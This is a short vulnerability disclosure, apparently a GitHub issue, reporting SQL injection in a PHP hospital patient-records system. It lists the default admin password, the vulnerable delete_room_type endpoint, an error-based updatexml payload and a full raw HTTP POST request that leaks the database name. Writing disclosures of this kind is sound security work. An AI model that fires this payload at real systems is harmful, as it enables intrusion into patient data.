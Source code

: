 # Hospital's Patient Records Management System v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15116/hospitals-patient-records-management-system-php-free-source-code.html

Vulnerability File: /hprms/classes/Master.php?f=delete_room_type

Vulnerability location: /hprms/classes/Master.php?f=delete_room_type, id

Current database name: hprms_db ,length is 8

[+] Payload: id=2' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id

```sql
POST /hprms/classes/Master.php?f=delete_room_type HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=7g6mvmuq5m1o1cvqrhprll4jr1
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 65

id=2' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/171824257-95a504b1-e09e-4d78-84bf-d1f981947377.png)
